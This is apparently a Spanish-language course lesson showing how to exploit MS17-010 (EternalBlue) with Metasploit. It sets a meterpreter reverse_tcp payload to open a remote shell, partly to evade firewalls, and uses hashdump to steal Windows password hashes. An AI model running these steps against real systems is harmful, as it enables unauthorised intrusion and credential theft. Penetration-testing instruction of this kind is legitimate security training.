



Vamos a hacer todo lo de la leccion anterior pero cargaremos un pyaload diferente...

`service postgresql start`

luego podemos lanzar MSF con 

`msfconsole`

MSF se basa en su base de datos para aprovechar bugs e inyectar el codigo que querramos en el host vulnerable

Luego de que ha iniciado el promt(o terminal propia de MSF)

Podemos buscar el exploit previsto en el reporte de winXP anterior(___MS17-010___)

con el comando 

`search ms17-010`

Nos arrojara informacacion acerca de

***Nombre del exploit***

***La fecha en la que fue descubierto el exploit(Disclosure Date)*** 

***El ranking que definiria que tan bueno es el exploit(Rank)***

***La descripciion del exploit(Description)***

Encontramos dos resultados de esa vulnerabilidad

1. El primero es un auxiliar normal
2. ***El famoso y temido exploit eternal blue, culpable de una ola de ransomwares meses atras***

Para usar algun exploit le damos

`use exploit/windows/smb/ms17_010_eternalblue`

al dar enter el promt cambia para mostrar que se esta utilizando ese exploit

La carga que queremos que haga despues de ejecutar el exploit es el **Payload**

Puedo ver los payloads disponibles con

`show payloads`

utilizaremos un meterpreter, que es como una consola de comandos pero de metasploit con ciertos comandos especiales

En este caso utilizaremos el 

`set payload windows/x64/meterpreter/bind_tcp`

Pero ya que este funciona de manera directa no es aconsejable

es mejor utilizar un reverse ya que la victima actuara como servidor y en algunos casos saltara el firewall

`set payload windows/x64/meterpreter/reverse_tcp`

seteamos el rhost que falta

damos `exploit` para ejecutar el exploit

ya dentro de el meterpreter podemos escribir `help` para listar todos los comandos dsiponibles

Existen muchos comandos interesantes dentro de el meterpreter pero en este caso el que mas nos interesa con el fin de desarrollar el curso es el de `hashdump` que nos devuelve los SID(security ID(que es unico)) de windows, todos los usuarios de windows un dato es que todos los que son 500 son usuarios ceados por el sistema y los de 1000 para arriba con usuarios creados por el administrador junto con su hash correspondiente

